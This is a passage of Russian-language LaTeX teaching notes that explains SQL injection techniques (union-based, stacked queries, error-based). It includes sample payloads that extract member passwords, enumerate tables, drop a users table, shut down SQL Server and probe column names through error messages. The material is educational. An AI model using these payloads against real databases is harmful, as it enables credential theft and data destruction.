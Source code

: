 \begin{itemize}
    \item \textbf{Union injection}\\
    При помощи UNION комбинировать данные из разных таблиц в одну. Это одна из самых популярных и опасных классических инъекций.

    Допустим, на сайте есть список товаров с уязвимой строкой поиска. Тогда, подобрав правильное количество колонок и определив их название, через UNION можно вывести практически любые данные
    \begin{grayquote} 
        SELECT name, price FROM products UNION ALL SELECT name, pass FROM members\\
        \#Такой запрос позволит получить данные о таблицах и найти таблицу пользователей\\
        UNION(SELECT TABLE\_NAME, 

        TABLE\_SCHEMA FROM information\_schema.tables)
    \end{grayquote}
    
    \item \textbf{Последовательные запросы}\\
    В некоторых СУБД можно использовать простой знак ';' для последовательного вызова вредоносных запросов
    \begin{grayquote} 
        \#Удаление таблицы\\
        SELECT * FROM products WHERE productName = ""; DROP users--\\
        \#Выключение SQL Server\\
        SELECT * FROM products WHERE productName = ""; shutdown –\\
    \end{grayquote}


    \item \textbf{Error-based injection}\\
    Инъекции, основанные на том, что злоумышленник может видеть вывод ошибки. Уязвимость устраняется просто отключением этого вывода

    Последовательное выполнение следующих запросов может помочь определить в тексте ошибки названия столбцов:\\
    \begin{grayquote} 
        ' HAVING 1=1 --\\
        ' GROUP BY table.columnfromerror1 HAVING 1=1 --\\
        ' GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 --\\
        .....\\
        ' GROUP BY table.columnfromerror1, columnfromerror2, columnfromerror(n) HAVING 1=1 --\\
        Если ошибки перестали появляться, значит столбцы закончились
    \end{grayquote}
    

\end{itemize}
